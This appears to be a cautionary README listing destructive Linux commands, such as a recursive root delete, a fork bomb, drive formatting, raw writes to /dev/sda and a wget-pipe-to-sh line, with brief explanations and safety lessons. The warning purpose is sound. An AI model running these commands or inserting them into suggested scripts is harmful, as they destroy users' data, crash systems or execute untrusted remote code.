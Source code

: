 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `format C:` of the old DOS? this have the same result.

### Write in the Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


## Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


## The Black Hole

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


## stranger danger

`wget http://example.com/something -O – | sh –`


## You will be no more busy

`rm -f /usr/sbin/busybox`

## Learned Lessons
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
